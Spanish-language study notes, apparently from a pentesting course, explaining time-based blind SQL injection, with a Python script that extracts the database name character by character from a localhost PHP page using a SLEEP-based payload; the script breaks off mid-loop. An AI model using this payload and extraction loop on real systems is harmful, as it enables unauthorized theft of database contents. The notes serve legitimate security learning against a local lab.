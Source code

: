 
Exacto, otra técnica común en la inyección SQL ciega es la **inyección basada en tiempo**. En este tipo de ataque, no se espera un código de estado HTTP específico (como el `200`), sino que se evalúa el **tiempo de respuesta** del servidor. Si el servidor tarda en responder, esto indica que la consulta es verdadera, y si responde rápidamente, significa que es falsa.

En este caso, la inyección SQL utiliza funciones que hacen que el servidor espere un cierto periodo de tiempo (por ejemplo, con `SLEEP()` en MySQL) si una condición es verdadera. Si el servidor tarda en responder, entonces la letra probada es correcta.

![[Pasted image 20240919233245.png]]

-----------

### CODIGO

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
from pwn import log

# Manejador de señal para Ctrl+C
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Asignar el manejador de señal para Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
tiempo_espera = 5  # Tiempo de espera en segundos
usuario_extraido = ""

# Función para realizar la inyección SQL basada en tiempo
def makeSQLi():
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    # Enumerar posiciones y caracteres
    for position in range(1, 50):  # Suponemos un límite de 50 caracteres
        for character in range(33, 126):  # Rango de caracteres ASCII imprimibles
            # Construir la URL de la inyección SQL
            sqli_url = f"{main_url}?id=1 OR IF(ASCII(SUBSTR((database()), {position}, 1)) = {character}, SLEEP(3.5), 0)"

            p1.status(sqli_url)

            # Medir el tiempo de inicio
            tiempo_inicio = time.time()

            # Enviar la solicitud al servidor
            r = requests.get(sqli_url)

            # Medir el tiempo de fin
            tiempo_fin = time.time()

```